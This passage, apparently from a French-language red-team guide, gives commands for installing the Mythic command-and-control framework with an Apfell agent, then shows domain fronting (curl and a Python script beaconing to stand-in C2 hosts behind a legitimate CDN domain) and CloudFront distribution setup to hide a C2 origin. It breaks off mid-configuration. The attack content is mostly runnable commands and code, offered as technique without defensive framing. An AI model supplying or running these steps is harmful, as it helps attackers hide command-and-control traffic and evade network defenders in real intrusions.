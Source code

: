 ### Mythic
```bash
# Installation Mythic
git clone https://github.com/its-a-feature/Mythic.git
cd Mythic && sudo make install

# Démarrage
sudo ./mythic-cli start

# Interface web: https://localhost:7443

# Installation d'un agent (ex: Apfell)
sudo ./mythic-cli install github https://github.com/MythicAgents/apfell.git
```

## 🌐 Techniques de Camouflage

### Domain Fronting
```bash
# Configuration avec CloudFlare
# 1. Domaine légal pointant vers CloudFlare
# 2. Configuration DNS
dig +short example-legit.com
# 104.16.x.x (CloudFlare IP)

# 3. Configuration agent pour domain fronting
curl -H "Host: evil-c2.com" https://example-legit.com/beacon

# 4. Script automatisation domain fronting
python3 << 'EOF'
import requests

headers = {
    'Host': 'malicious-c2.actual-domain.com',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36'
}

response = requests.get('https://legitimate-cdn-domain.com/api/check', 
                       headers=headers, verify=False)
print(response.text)
EOF
```

### CDN Abuse
```bash
# Utilisation d'AWS CloudFront
aws cloudfront create-distribution \
    --distribution-config file://distribution-config.json

# Configuration JSON pour CloudFront
cat > distribution-config.json << 'EOF'
{
    "CallerReference": "c2-distribution-$(date +%s)",
    "Origins": {
        "Quantity": 1,
        "Items": [
            {
                "Id": "c2-origin",
                "DomainName": "actual-c2-server.com",
                "CustomOriginConfig": {
                    "HTTPPort": 443,
                    "HTTPSPort": 443,
                    "OriginProtocolPolicy": "https-only"
```